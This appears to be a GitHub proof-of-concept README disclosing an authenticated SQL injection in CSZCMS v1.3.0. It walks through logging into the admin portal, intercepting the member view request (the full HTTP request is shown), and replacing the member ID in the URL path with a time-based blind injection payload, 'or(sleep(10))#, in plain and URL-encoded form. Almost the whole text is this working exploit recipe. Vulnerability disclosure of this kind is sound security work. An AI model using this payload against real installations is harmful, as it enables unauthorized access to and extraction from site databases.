 # CSZCMS-v1.3.0---SQL-Injection-Authenticated-
CSZCMS v1.3.0  SQL Injection (Authenticated)

# 1 - Log in to the admin portal

http://localhost/cszcms/admin/login

# 2 - Navigate to General Menu > Member Users.

# 3 Click the 'View' button next to any username.

# 4 Intercept the request
```
GET /cszcms/admin/members/view/1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 86112035d26bb3c291899278f9ab4fb2_cszsess=n5v1jcdqfjuuo32ng66e4rttg65ugdss
Upgrade-Insecure-Requests: 1
```


# 5 Modify the paramter 

/cszcms/admin/members/view/1

to 

/cszcms/admin/members/view/'or(sleep(10))#

and url encode all characters

/cszcms/admin/members/view/%27%6f%72%28%73%6c%65%65%70%28%31%30%29%29%23%20
